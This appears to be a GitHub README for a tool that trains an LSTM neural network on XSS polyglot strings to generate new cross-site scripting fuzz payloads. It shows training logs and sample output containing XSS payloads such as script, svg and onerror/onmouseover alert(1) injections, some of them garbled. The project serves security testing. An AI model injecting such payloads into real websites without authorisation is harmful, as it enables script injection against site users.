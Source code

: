# Generating XSS Payloads from Polyglot Files using Deep Learning

The scripts below serve to generate fuzz data for websites by training a neural network designed and implemented in
Keras to mimic the statstical patterns evident in the sequences of characters that make up an XSS payload. The core 
argument here is that since the text that makes up an XSS payload is essentially a sequence of numbers/characters, and 
the selection probability of each characters in each position it appears can be modelled as a 
sequence prediction problem for a LSTM with rich enough representation mechanisms for a given data set. I use a web 
hacking experts list of preffered polyglot strings to train the network here.

In a real web attack/testing scenario this network I believe can offer a good source of fuzz data 
honed by the contributive efforts of an entire web hacking community and dynamically adjusted to its 
trends and favored HTML/java/SVN trouble causing grammar hotspots i.e. perhaps web apps are toppling dew 
to iframe onclick event handling more than SVN due to context of certain framework - you can then spin this 
up and train it on some dirt iframe tags and you will have a good source of live/random fuzz data directly 
hitting the iframe part of the grammar, further more you can probably very easily mix in and take out parts 
of the grammar as you please by adjusting the training sample.
 

## How to use
The project includes two scripts

* `learn_payloads.py`  used to train the neural net on a set of payloads, this produces a set of weights.
* `generate_payloads.py` used to generate payloads based on a trained set of weights.  

### Training the Neural Net
In order to get the net to spit out payloads that look "polyglotty" enough (according to the structural set up I have) all you need to do is run the `learn_payloads.py` script and it will sweep up all the strings you have in a given file and try to learn the rules used to generate them so it can produce more like that.

Here's how its done:
```
keth@keithbook:~/pymlprojects_main/PyMLProjects/payloads/jhaddix/seq-12/run2$ ../../../learn_payloads.py ../../data/jhaddix.txt 
Using TensorFlow backend.
['\t', '\n', ' ', '!', '"', '#', '$', '%', '&', "'", '(', ')', '*', '+', ',', '-', '.', '/', '0', '1', '2', '3', '4', '5', '6', '7', '8', '9', ':', ';', '<', '=', '>', '?', '@', 'A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z', '[', '\\', ']', '^', '_', '`', 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '{', '}', '~', '\x80', '\x82', '\x85', '\x86', '\x89', '\x8e', '\x8f', '\x90', '\x92', '\x93', '\x98', '\x9d', '\xa2', '\xaf', '\xbc', '\xbd', '\xbe', '\xc2', '\xc3', '\xe2']
[*] Total Characters: 36896
[*] Total Vocab: 116
[*] Total Patterns: 36884
12 1
116
[*] training model...
Epoch 1/50
2018-03-12 21:00:06.275223: I tensorflow/core/platform/cpu_feature_guard.cc:137] Your CPU supports instructions that this TensorFlow binary was not compiled to use: SSE4.1 SSE4.2 AVX AVX2 FMA
 3450/36884 [=>............................] - ETA: 8:11 - loss: 4.1146^[c
 3500/36884 [=>............................] - ETA: 8:10 - loss: 4.1133
 3550/36884 [=>............................] - ETA: 8:09 - loss: 4.1095

```

This will produce a list of weights files (used to set up the neural net from scratch if you need to use it later):

```
-rw-rw-r-- 1 keth keth 38566192 Feb 26 22:48 seq-12-weights-improvement-01-3.8815.hdf5
-rw-rw-r-- 1 keth keth 38566192 Feb 26 22:54 seq-12-weights-improvement-02-3.4597.hdf5
-rw-rw-r-- 1 keth keth 38566192 Feb 26 23:00 seq-12-weights-improvement-03-3.0045.hdf5
-rw-rw-r-- 1 keth keth 38566192 Feb 26 23:06 seq-12-weights-improvement-04-2.6040.hdf5
...
-rw-rw-r-- 1 keth keth 38566192 Feb 27 00:17 seq-12-weights-improvement-19-0.5382.hdf5
-rw-rw-r-- 1 keth keth 38566192 Feb 27 00:20 seq-12-weights-improvement-20-0.5177.hdf5

```

### Generating Payloads
In order to generate payloads you need to run the `generate_payloads.py` script, it takes in the original data file you used to train the net and a weight configuration you'd like to use (try choosing one with a low enough weight to satisfy your payload generatio nneeds) here's how to do that:

```
keth@keithbook:~/pymlprojects_main/PyMLProjects/payloads/jhaddix/seq-12$ ../../generate_payloads.py ../data/jhaddix.txt seq-12-weights-improvement-50-0.3361.hdf5 
Using TensorFlow backend.
[*] Total Characters: 36896
[*] Total Vocab: 116
[*] Total Patterns: 36884
2018-03-12 21:10:21.244253: I tensorflow/core/platform/cpu_feature_guard.cc:137] Your CPU supports instructions that this TensorFlow binary was not compiled to use: SSE4.1 SSE4.2 AVX AVX2 FMA
[*] Seed: 'e?\/onerror '

= alert(1)???
<svg><script ?>alert(1)
<input talue="``onmouseover=alert(1)"></dire <dtr sac tooreo=alert(1)"></dire <dtr sac tooreo=alert(1)"></dire <dtr sac tooreo=alert(1)"></dire <dtr sac tooreo=al
e="x:">
<--`<img/src=` onerror=alert(1)>/script>">script> document.getElementById(%div2").innerHTML;</script>
<script> document.getElementById(%div2").innerHTML;</script>
<script> document.getElementB
TML=innerHTML</script>

```
*some stderr output has been supressed, tensor flow and keras like to make a lot of noise hehe

## Dependencies

The only thing you need to get this up and running is a working python install and whatever else you need to run Keras, smoothly.
Python Keras : https://keras.io/ 


Further Reading and Similar ideas:
*  http://www.ieeeconfpublishing.org/cpir/UploadedFiles/ver11.0.pdf 
*  http://machinelearningmastery.com/text-generation-lstm-recurrent-neural-networks-python-keras/ 
*  https://0day.work/using-neural-networks-for-password-cracking/ 
